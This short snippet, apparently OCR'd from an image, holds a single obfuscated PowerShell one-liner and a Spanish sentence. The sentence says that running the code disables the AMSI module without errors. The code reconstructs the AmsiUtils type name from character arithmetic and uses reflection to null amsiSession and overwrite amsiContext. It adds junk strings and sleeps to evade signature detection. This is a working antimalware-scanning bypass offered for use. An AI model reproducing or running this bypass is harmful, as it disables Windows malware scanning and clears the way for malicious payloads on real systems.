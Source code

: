 ```powershell
$o1XOo_au6zlBn_AI=$null;$tK2D_zyBfxhkVHI=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((9076+4250-4250));$uwiiheyxryrusrapee="+('b'+'ú').nORmALiZe([cHaR]([bYtE]0x46)+[CHar](111)+[CHar]([byTe]0x72)+[CHAr](109+23-23)+[chAr](41+27)) -replace [chAR](92)+[CHar]([Byte]0x70)+[chAr]([bYtE]0x7b)+[char](77)+[CHAR]([BYTE]0x6e)+[Char](125)";[Threading.Thread]::Sleep(882);[Ref].Assembly.GetType("System.$([CHar](77)+[chAr]([BYTE]0x61)+[chaR]([Byte]0x6e)+[chAr]([bytE]0x61)+[CHAr](46+57)+[CHAR](101+32-32)+[CHAr](34+75)+[CHAR](101*43/43)+[ChaR]([ByTE]0x6e)+[ChAr](116*67/67)).$([char](65+35-35)+[chAR]([byTe]0x75)+[chAR](116+36-36)+[char](111)+[chaR](109*11/11)+[chaR](97)+[ChAr]([bYTe]0x74)+[chAR](105*75/75)+[CHaR](111+43-43)+[chAR]([bYTe]0x6e)).$(('Àms'+'íÚt'+'íls').noRMalIzE([cHAR](70*34/34)+[char](111)+[cHAR]([byTE]0x72)+[chAR]([bYte]0x6d)+[ChAR]([ByTe]0x44)) -replace [char](92+53-53)+[CHaR](82+30)+[CHar](100+23)+[Char](77+58-58)+[CHAr]([BYtE]0x6e)+[ChAr]([bytE]0x7d))").GetField("$(('àms'+'îSê'+'ssî'+'õn').nORMaLIze([cHar]([bYtE]0x46)+[char]([Byte]0x6f)+[cHar]([BYTe]0x72)+[cHAr]([byTE]0x6d)+[ChAR](68*52/52)) -replace [ChAr]([BYtE]0x5c)+[cHAr]([ByTe]0x70)+[CHAR](123*79/79)+[char](77)+[chAR](110)+[chAR]([bYte]0x7d))", "NonPublic,Static").SetValue($o1XOo_au6zlBn_AI, $o1XOo_au6zlBn_AI);[Ref].Assembly.GetType("System.$([CHar](77)+[chAr]([BYTE]0x61)+[chaR]([Byte]0x6e)+[chAr]([bytE]0x61)+[CHAr](46+57)+[CHAR](101+32-32)+[CHAr](34+75)+[CHAR](101*43/43)+[ChaR]([ByTE]0x6e)+[ChAr](116*67/67)).$([char](65+35-35)+[chAR]([byTe]0x75)+[chAR](116+36-36)+[char](111)+[chaR](109*11/11)+[chaR](97)+[ChAr]([bYTe]0x74)+[chAR](105*75/75)+[CHaR](111+43-43)+[chAR]([bYTe]0x6e)).$(('Àms'+'íÚt'+'íls').noRMalIzE([cHAR](70*34/34)+[char](111)+[cHAR]([byTE]0x72)+[chAR]([bYte]0x6d)+[ChAR]([ByTe]0x44)) -replace [char](92+53-53)+[CHaR](82+30)+[CHar](100+23)+[Char](77+58-58)+[CHAr]([BYtE]0x6e)+[ChAr]([bytE]0x7d))").GetField("$(('ã'+'m'+'s'+'ì'+'C'+'ô'+'n'+'t'+'è'+'x'+'t').nOrMalizE([CHar](70+26-26)+[ChAR](111*40/40)+[Char]([bYTE]0x72)+[chAr](13+96)+[ChAR](68+35-35)) -replace [CHAr]([bYTe]0x5c)+[CHAR]([byTE]0x70)+[cHaR]([ByTE]0x7b)+[CHAR]([byte]0x4d)+[CHAR]([BYtE]0x6e)+[cHaR]([BYTE]0x7d))", "NonPublic,Static").SetValue($o1XOo_au6zlBn_AI, [IntPtr]$tK2D_zyBfxhkVHI);$eypibgevvbsp="+[ChaR]([byTe]0x77)+[Char]([Byte]0x66)+[chaR](121+13-13)+[ChaR]([Byte]0x6f)+[CHAR](113)+[chaR](116+35-35)+[ChAR]([bYTE]0x76)+[CHar](122*25/25)+[cHAr](101+94-94)+[CHar]([BYtE]0x64)+[cHAR]([bYte]0x6c)+[chaR](119*6/6)+[CHar](76+43)+[CHAr](103)+[chAr]([byTE]0x72)+[Char](114+12-12)+[CHAr](118+20-20)";[Threading.Thread]::Sleep(818)
```

Esto si lo ejecutamos no nos dara ningun error y abremos desactivado el modulo de `amsi`.
